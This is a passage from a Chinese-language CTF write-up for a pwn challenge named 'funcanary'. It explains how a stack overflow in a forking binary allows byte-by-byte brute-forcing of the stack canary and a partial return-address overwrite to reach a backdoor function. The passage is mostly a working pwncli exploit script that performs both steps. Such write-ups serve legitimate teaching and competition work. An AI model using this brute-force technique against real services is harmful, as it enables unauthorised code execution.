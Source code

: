 ## funcanary

主函数有栈溢出，folk 后 canary 和 elf 地址都不变，因此可以逐字节爆破 canary 后爆破打到后门函数，exp 如下：

```py
#!/usr/bin/env python3
#-*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from pwncli import *
cli_script()
#  set_remote_libc('libc.so.6')

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc

i2b = lambda c : str(c).encode()
lg = lambda s : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
debugB = lambda : input("\033[1m\033[33m[ATTACH ME]\033[0m")

# one_gadgets: list = get_current_one_gadget_from_libc(more=False)
CurrentGadgets.set_find_area(find_in_elf=True, find_in_libc=False, do_initial=False)

def cmd(choice):
    ru(b'> ')
    sl(i2b(choice))

context(arch='amd64')

canary=[b'\x00']
for i in range(7):
    for b in range(256):
        ru(b'come')
        s(flat(b'\x00'*(0x70-8),canary,p8(b)))
        if b'terminated' not in ru(b'wel'):
            canary.append(p8(b))
            break
for a in range(2,0xf2+1,0x10):
    if b'flag' in ru(b'come'):
        break
    s(flat(b'\x00'*(0x70-8),canary,0,b'\x2e',p8(a)))

ia()
```

---

# Reverse

